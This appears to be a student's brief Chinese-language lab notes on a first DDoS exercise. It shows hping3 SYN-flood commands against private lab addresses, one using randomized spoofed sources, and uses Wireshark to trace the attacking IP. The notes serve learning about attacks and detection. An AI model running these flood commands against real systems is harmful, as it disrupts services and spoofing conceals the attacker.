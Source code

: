 
### 這是我第一次的DDos實作😃

#### 上課教了︰
<code>hping3 -V  -c 100000 -d 100 -S -p 21 --flood 192.168.43.129</code><br/>
<code>hping3 -V  -c 100000 -d 100 -S -p 21 --flood --rand-source 192.168.43.129</code>

#### 自主學習︰
##### 問題1  用wireshark監測攻擊方ip
使用指令(hping3 -V  -c 100000 -d 100 -S -p 21 --flood 192.168.19.130)攻擊
可以看到攻擊來源都是來自192.168.19.128 的ip位置。




